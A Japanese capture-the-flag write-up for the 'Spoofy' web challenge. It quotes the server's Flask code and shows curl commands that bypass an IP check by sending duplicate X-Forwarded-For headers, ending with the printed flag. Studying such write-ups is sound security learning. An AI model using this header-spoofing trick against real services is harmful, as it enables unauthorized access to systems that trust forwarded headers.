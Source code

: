 # Spoofy:Web:160pts
Clam decided to switch from repl.it to an actual hosting service like Heroku. In typical clam fashion, [he left a backdoor in](https://actf-spoofy.herokuapp.com/). Unfortunately for him, he should've stayed with repl.it...  
[Source](app.py)  

# Solution
アクセスするが文字列が表示されるだけなようだ。  
```bash
$ curl https://actf-spoofy.herokuapp.com/
I don't trust you >:(
```
配布されたソースを見ると以下のようであった。  
```python
~~~
@app.route("/")
def main_page() -> Response:
    if "X-Forwarded-For" in request.headers:
        # https://stackoverflow.com/q/18264304/
        # Some people say first ip in list, some people say last
        # I don't know who to believe
        # So just believe both
        ips: List[str] = request.headers["X-Forwarded-For"].split(", ")
        if not ips:
            return text_response("How is it even possible to have 0 IPs???", 400)
        if ips[0] != ips[-1]:
            return text_response(
                "First and last IPs disagree so I'm just going to not serve this request.",
                400,
            )
        ip: str = ips[0]
        if ip != "1.3.3.7":
            return text_response("I don't trust you >:(", 401)
        return text_response("Hello 1337 haxx0r, here's the flag! " + FLAG)
    else:
        return text_response("Please run the server through a proxy.", 400)
~~~
```
配列で管理されたX-Forwarded-Forの先頭と末尾が一致しており、さらにそれが1.3.3.7である場合フラグが得られるようだ。  
試しにX-Forwarded-Forを設定する。  
```bash
$ curl https://actf-spoofy.herokuapp.com/ -H "X-Forwarded-For: 1.3.3.7"
First and last IPs disagree so I'm just going to not serve this request.
$ curl https://actf-spoofy.herokuapp.com/ -H "X-Forwarded-For: 1.3.3.7, 1.3.3.7"
First and last IPs disagree so I'm just going to not serve this request.
```
どうやらサーバを経由するごとにIPが末尾に付加されているようだ。  
これを回避することは難しいが、配列で管理されている部分で複数のX-Forwarded-Forが付加されている場合を考慮していない。  
```
X-Forwarded-For: 1.3.3.7
X-Forwarded-For: , 1.3.3.7
```
とした場合、xxx.xxx.xxx.xxxを経由したとしても以下のようになる。  
```
['1.3.3.7', 'xxx.xxx.xxx.xxx,', '1.3.3.7']
```
以下のように実際に行う。  
```bash
$ curl https://actf-spoofy.herokuapp.com/ -H "X-Forwarded-For: 1.3.3.7" -H "X-Forwarded-For: , 1.3.3.7"
Hello 1337 haxx0r, here's the flag! actf{spoofing_is_quite_spiffy}
```
flagが得られた。  

## actf{spoofing_is_quite_spiffy}